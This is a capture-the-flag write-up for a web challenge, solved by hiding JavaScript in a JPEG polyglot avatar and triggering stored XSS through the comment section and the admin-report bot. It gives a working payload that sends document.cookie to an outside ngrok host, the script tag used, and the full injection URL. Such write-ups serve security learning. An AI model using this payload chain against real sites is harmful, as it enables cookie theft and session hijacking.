

🚩 Third Challenge

### Question


> Link: http://54.82.54.16/

### Solution
- This is how the website looks like
- 
- This challenge was another nice challenge but the cool thing was that we saw it before in another CTF (CyberWarriors-JordanCTF) that me and my team participated in and got the 19th place
- We couldn't solve it then but we knew how to solve it after the CTF ended from this [writeup](https://zoznoor23.medium.com/yogosha-christmas-ctf-kara-jutsus-access-write-up-4ff3f67984a3) by the talented **Hamza Nour**
- So what's better than nice & already solved challenge before to solve again? 😀
- So we know it's an **XSS** because there is a **bot link (admin report)** and **profile picture upload**!
- 
- When searching for `XSS through jpg image` you will find this [article](https://medium.com/@Medusa0xf/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a) _(Hiding Javascript code inside JPG image using **Polyglot**)_
- There is this [amazing tool](https://github.com/js-on/jpeg_polyglot_xss) to create polyglot payloads, this way is better and easier than the ways explained in the references above (but they explain how it works tho which is nice to know) _[Unfortunately this tool didn't work for me tho, it might work for you? maybe - but later on I found out it's probably missing some characters from the original exploit explanation]_
- We need to create a payload to be inside a JPEG image to upload it as our avatar to the website
- 
- Then there is a comment section which confirms in Home it's an XSS exploit
- 
- When you submit that you see our XSS portal in the url and the comment being added to the home page
- 
- Amazing! now to the cool part
- Instead of using the mentioned tool above which didn't work me, I read this [article from portswigger](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
- They've already crafted the [injected image](http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg) for you, all you have to do is to upload it and use burp repeater to edit the payload as follows
    - Open burp & start intercepting
    - Choose the injected image above and submit uploading it to the website
    - In burp, send the request to repeater and stop intercepting
    - Request should look like this in repeater
    - 
- Now change the burp's payload (selected above) to your payload (below)
- `*/=document.location='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io/test?'+document.cookie/*`
- Send the request
- 
- Once uploaded/sent you will get a warning and a `File is an image` message which means our injected image has been uplaoded successfully
- 
- Now we need to get the file path of that avatar on the website using the HTML source code (Ctrl+U OR Right-Click > Inspect Element OR from burp response)
- 
- Our image path was `./upload/1672270999151187401.jpg` which is `http://54.82.54.16//upload/1672270999151187401.jpg`and type that as a URL your injected image will be downloaded
- Now we need to add that image source to the home page using the comments section
- Note that we need to use `charset="ISO-8859-1"` in the img element due to this
- > On Firefox when using a UTF-8 character set for the document it corrupts the polyglot when included as an script! So to get the script to work we need to specify the ISO-8859–1 charset on the script tag and it executes fine.
- Here is out comment
```html
<script charset="ISO-8859-1" src="./upload/1672270999151187401.jpg"></script>
```
- 
- This is the XSS link
```css
http://54.82.54.16//index.php?name=F30s&email=ayham&subject=IsHere&message=%3Cscript+charset%3D%22ISO-8859-1%22+src%3D%22.%2Fupload%2F1672270999151187401.jpg%22%3E%3C%2Fscript%3E&subcom=test
```
- Now we need to make the bot (in Admin Report) go to this XSS link
- 
- VOILAAAA!!! You got the flag!
- 
> Flag: `FLAG{K4ra_OnCe_Alw4y5_Kara????}`